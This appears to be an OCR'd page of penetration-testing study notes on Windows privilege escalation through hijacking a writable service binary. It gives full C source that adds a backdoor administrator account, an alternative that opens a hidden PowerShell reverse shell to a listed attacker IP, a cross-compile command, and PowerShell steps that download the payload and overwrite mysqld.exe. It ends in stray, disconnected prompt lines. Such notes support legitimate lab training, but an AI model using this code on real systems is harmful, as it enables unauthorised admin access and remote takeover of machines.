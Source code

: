 ```bash
icacls "C:\xampp\mysql\bin\mysqld.exe"
```

### Elevate Priviledges of Running Service Binary

```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user overlord password123! /add");
  i = system ("net localgroup administrators overlord /add");
  
  return 0;
}
```
or
```c
#include <stdio.h>

int main() {
    int i;
    // Reverse shell command to your attacker machine
    i = system("powershell -NoP -NonI -W Hidden -Exec Bypass -Command $client = New-Object "
               "System.Net.Sockets.TCPClient('192.168.45.225',445);$stream = $client.GetStream();"
               "[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){"
               ";$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);"
               "$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';"
               "$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);"
               "$stream.Flush()};$client.Close()");
    return 0;
}

````
You need to cross-compile the code on our Kali machine with mingw-64.

```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

```bash
PS C:\Users\dave> iwr -uri http://192.168.119.3/adduser.exe -Outfile adduser.exe  

PS C:\Users\dave> move C:\xampp\mysql\bin\mysqld.exe mysqld.exe

PS C:\Users\dave> move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
```

Now you need to restart the service. You can try this command first, though it will likely fail.


[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname